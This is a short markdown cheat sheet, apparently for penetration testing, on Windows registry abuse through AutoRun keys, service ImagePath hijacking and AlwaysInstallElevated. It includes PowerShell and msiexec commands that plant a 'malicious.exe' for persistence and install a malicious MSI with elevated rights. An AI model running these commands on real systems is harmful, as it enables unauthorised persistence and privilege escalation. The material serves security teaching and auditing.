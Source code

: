 #### AutoRun Keys (Persistence and Privilege Escalation)
   - Registry Path:
     - `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
     - `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
   - Purpose: Allows programs to be run automatically at startup.
   - Abuse: If these keys are writable by non-admin users, an attacker can add an executable or script to be executed with elevated privileges upon system startup or user login.

   PowerShell Example to Check Permissions:
   ```powershell
   Get-Acl "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" | Format-List
   Get-Acl "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" | Format-List
   ```

   PowerShell Example to Add Entry:
   ```powershell
   Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousApp" -Value "C:\path\to\malicious.exe"
   ```

#### Services (Service Configuration Hijacking)
   - Registry Path:
     - `HKLM\SYSTEM\CurrentControlSet\Services\`
   - Purpose: Stores configuration settings for Windows services.
   - Abuse: If a service’s configuration can be modified by a non-admin user, an attacker can change the executable path of a service to run a malicious binary with SYSTEM privileges.

   PowerShell Example to Identify Writable Services:
   ```powershell
   Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\*" | Format-List
   ```

   PowerShell Example to Modify Service:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\ServiceName" -Name "ImagePath" -Value "C:\path\to\malicious.exe"
   ```

#### AlwaysInstallElevated (Installer Privilege Escalation)
   - Registry Path:
     - `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
     - `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
   - Purpose: Allows Windows installers to run with elevated privileges.
   - Abuse: If both the `HKCU` and `HKLM` keys are set to `1`, any MSI package can be installed with elevated privileges, allowing privilege escalation by installing a malicious MSI.

   PowerShell Example to Check Values:
   ```powershell
   Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated"
   Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated"
   ```

   PowerShell Example to Exploit:
   ```powershell
   msiexec /quiet /qn /i C:\path\to\malicious.msi
   ```
